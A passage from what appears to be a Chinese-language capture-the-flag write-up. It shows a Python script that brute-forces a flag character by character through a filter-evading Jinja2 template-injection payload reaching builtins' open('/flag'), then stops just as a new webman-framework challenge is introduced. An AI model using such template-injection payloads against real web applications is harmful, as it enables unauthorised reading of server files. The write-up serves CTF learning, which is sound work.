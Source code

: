 ```python
for i in range(50):
    for j in range(50):
        for string in strings:
            payload = '''
            cycler["__in"+"it__"]["__glo"+"bals__"]["__bui"+"ltins__"].open('/flag').read({})[{}]=='{}'
            '''.format(j + 1, j, string)
            data={
                "message":payload
            }
            r = requests.post(url=url, data=data, headers=headers)
            if r.status_code == 200 and "your answer is True" in r.text:
                print(string)
                target += string
                if string == "}":
                    print(target)
                    exit()
                break
```

![13](/medias/show-DSB/13.png)



## 迷雾重重 【复现】

题目使用的[webman](https://www.workerman.net/doc/webman/README.html)框架，在官网临时学习一下

`app/controller/IndexController.php`是入口